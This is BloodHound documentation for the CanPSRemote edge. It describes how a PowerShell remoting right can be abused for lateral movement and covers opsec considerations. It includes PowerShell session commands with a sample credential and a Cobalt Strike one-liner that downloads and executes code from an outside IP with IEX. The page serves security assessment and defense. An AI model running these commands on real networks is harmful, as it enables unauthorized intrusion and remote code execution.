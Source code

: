 ---
title: CanPSRemote
description: "PS Session access allows you to enter an interactive session with the target computer. If authenticating as a low privilege user, a privilege escalation may allow you to gain high privileges on the system."
---

<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg" alt="Applies to BloodHound Enterprise and CE"/>


<Info>
**Note**

This edge does not guarantee privileged execution.
</Info>

## Abuse Info

Abuse of this privilege will require you to have interactive access with a system on the network.

A remote session can be opened using the New-PSSession powershell command.

You may need to authenticate to the Domain Controller as the user with the PSRemote rights on the target computer if you are not running as that user. To do this in conjunction with New-PSSession, first create a PSCredential object (these examples comes from the PowerView help documentation):

```bash
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\\dfm.a', $SecPassword)
```

Then use the New-PSSession command with the credential we just created:

```bash
$session = New-PSSession -ComputerName &lt;target computer name&gt; -Credential $Cred
```
This will open a PowerShell session on the target computer

You can then run a command on the system using the Invoke-Command cmdlet and the session you just created

```bash
Invoke-Command -Session $session -ScriptBlock {Start-Process cmd}
```

Cleanup of the session is done with the Disconnect-PSSession and Remove-PSSession commands.

```bash
Disconnect-PSSession -Session $session
Remove-PSSession -Session $session
```
An example of running through this Cobalt Strike for lateral movement is as follows:

```bash
powershell $session =  New-PSSession -ComputerName win-2016-001; Invoke-Command -Session $session
-ScriptBlock {IEX ((new-object net.webclient).downloadstring('http://192.168.231.99:80/a'))};
Disconnect-PSSession -Session $session; Remove-PSSession -Session $session
```
## Opsec Considerations

When using the PowerShell functions, keep in mind that PowerShell v5 introduced several security mechanisms that make it much easier for defenders to see what’s going on with PowerShell in their network, such as script block logging and AMSI.

Entering a PSSession will generate a logon event on the target computer.

## References

* [https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/new-pssession?view=powershell-7](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/new-pssession?view=powershell-7)
* [https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/invoke-command?view=powershell-7](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/invoke-command?view=powershell-7)
